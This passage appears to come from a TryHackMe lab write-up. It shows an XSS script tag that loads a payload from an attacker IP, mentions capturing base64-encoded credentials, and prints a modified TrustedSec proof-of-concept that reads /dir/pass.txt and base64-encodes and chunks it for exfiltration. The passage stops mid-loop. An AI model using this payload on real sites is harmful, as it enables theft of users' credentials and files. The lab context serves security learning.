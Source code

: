 ```js
<script src="http://10.9.1.117/exfilPayload.js"></script>
```

I got the data in the format of B64(jack:jack_password) :

![Alt text](<../../../assets/images/THMPics/Pasted image 20240111142626.png>)

That's the modified script for data exfiltration :

```js
// TrustedSec Proof-of-Concept to steal 
// sensitive data through XSS payload
function read_body(xhr) 
{ 
	var data;
	if (!xhr.responseType || xhr.responseType === "text") 
	{
		data = xhr.responseText;
	} 
	else if (xhr.responseType === "document") 
	{
		data = xhr.responseXML;
	} 
	else if (xhr.responseType === "json") 
	{
		data = xhr.responseJSON;
	} 
	else 
	{
		data = xhr.response;
	}
	return data; 
}
function stealData()
{
	var uri = "/dir/pass.txt";
	xhr = new XMLHttpRequest();
	xhr.open("GET", uri, true);
	xhr.send(null);
	xhr.onreadystatechange = function()
	{
		if (xhr.readyState == XMLHttpRequest.DONE)
		{
			// We have the response back with the data
			var dataResponse = read_body(xhr);
			// Time to exfiltrate the HTML response with the data
			var exfilChunkSize = 2000;
			var exfilData      = btoa(dataResponse);
			var numFullChunks  = ((exfilData.length / exfilChunkSize) | 0);
			var remainderBits  = exfilData.length % exfilChunkSize;
			// Exfil the yummies
			for (i = 0; i < numFullChunks; i++)
			{
				console.log("Loop is: " + i);
```